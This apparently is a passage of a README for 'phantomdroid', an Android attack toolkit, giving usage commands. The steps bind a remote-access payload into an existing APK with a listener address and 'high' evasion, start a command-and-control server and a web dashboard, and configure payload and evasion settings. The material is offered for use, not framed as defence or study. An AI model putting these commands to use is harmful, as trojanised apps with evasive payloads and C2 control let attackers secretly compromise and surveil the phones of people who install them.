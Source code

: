 ### 2. Bind Payload to Existing APK
```bash
# Interactive mode
./phantomdroid.sh
# Select option 2, then follow prompts

# Command line mode
python core/apk_binder.py \
    --apk "C:/path/to/original.apk" \
    --lhost 192.168.1.100 \
    --lport 4444 \
    --method 1 \
    --evasion high
```

### 3. Start C2 Server
```bash
# Interactive mode
./phantomdroid.sh
# Select option 6

# Direct execution
python core/c2_server.py --port 8080 --protocol 1
```

### 4. Web Interface
```bash
# Start web server
python core/web_interface.py

# Access dashboard at:
# http://localhost:8080
```

## 🔧 Configuration

### Edit Configuration Files
```bash
# Core settings
notepad config/core.conf

# Payload settings
notepad config/payloads.conf
```

### Example Configuration
```ini
# config/core.conf
[general]
debug = true
verbose = true
auto_cleanup = false

[evasion]
default_level = high
enable_encryption = true
```
